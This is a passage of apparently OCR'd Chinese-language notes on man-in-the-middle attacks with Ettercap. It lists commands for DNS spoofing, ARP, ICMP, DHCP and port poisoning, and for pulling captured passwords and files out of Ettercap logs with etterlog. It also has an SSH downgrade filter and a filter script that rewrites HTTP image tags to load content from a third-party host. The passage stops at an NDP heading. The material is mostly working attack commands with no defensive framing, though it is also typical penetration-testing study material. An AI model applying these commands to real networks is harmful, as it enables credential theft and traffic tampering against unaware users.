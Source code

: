 ###  DNS欺骗

- dns_spoof插件配置文件
- vi /etc/ettercap/etter.dns


## ARP MITM

###  Ettercap 日志查看

- etterlog -p log.eci 查看获取的密码
- etterlog -c log.ecp 列出Log中的连接
- etterlog -c -f /1.1.1.1/ log.ecp
- etterlog -B -n -s -F TCP:1.1.1.1:20:1.1.1.2:1234 log.ecp> aa
    选择相应的连接并榨取文件


## ARP MITM

###  Filter

- /usr/share/ettercap/

###  SSH-2.xx / SSH-1.99 / SSH-1.51

- etterfilter etter.filter.ssh -o ssh.ef

###  替换HTTP内容

- if (ip.proto == TCP && tcp.src == 80) {
- msg("data on TCP 80\n");
- replace("img src=", "imgsrc=\"http://1.1.1.1/1.gif\" ");
- replace("IMG src=", "img src=\"http://1.1.1.1/1.gif\" ");
- replace("IMG SRC=", "img src=\"http://1.1.1.1/1.gif\" ");
- }


## 中间人攻击

###  ICMP

- -M icmp:00:11:22:33:44:55/10.0.0.1（真实网关的MAC/IP）

###  DHCP

- −M dhcp:192.168.0.30,35,50−60/255.255.255.0/192.168.0.1（DNS）

###  Port

- -M port /1.1.1.1/ /1.1.1.2/

###  Ndp
